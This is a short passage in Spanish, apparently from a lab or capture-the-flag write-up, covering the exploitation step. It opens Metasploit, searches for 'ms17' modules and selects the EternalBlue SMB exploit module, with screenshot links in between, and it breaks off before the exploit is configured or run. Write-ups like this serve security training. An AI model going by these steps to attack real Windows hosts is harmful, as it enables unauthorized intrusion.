 
## Explotación

Abrimos *metasploit*
```
msfconsole init -q
```

![](img/Pasted%20image%2020241226133414.png#center)

Buscamos el módulo
```
search ms17
```

![](img/Pasted%20image%2020241226134124.png#center)

Tenemos muchos módulos, pero el que usaremos el es primero. Así que usamos el módulo
```
use 0 
#ó
use exploit/windows/smb/ms17_010_eternalblue 
```

![](img/Pasted%20image%2020241226134220.png#center)


